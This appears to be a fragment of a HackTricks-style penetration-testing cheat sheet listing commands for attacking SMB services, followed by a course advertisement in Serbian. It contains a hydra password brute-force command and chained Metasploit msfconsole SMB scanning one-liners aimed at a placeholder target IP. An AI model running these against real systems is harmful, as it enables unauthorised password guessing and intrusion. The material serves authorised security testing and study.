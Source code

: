 ```
Description: Need User
Command: hydra -t 1 -V -f -l {Username} -P {Big_Passwordlist} {IP} smb

Entry_6:
Name: SMB/SMB2 139/445 consolesless mfs enumeration
Description: SMB/SMB2 139/445  enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/smb/smb_version; set RHOSTS {IP}; set RPORT 139; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smb/smb2; set RHOSTS {IP}; set RPORT 139; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smb/smb_version; set RHOSTS {IP}; set RPORT 445; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smb/smb2; set RHOSTS {IP}; set RPORT 445; run; exit'

```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
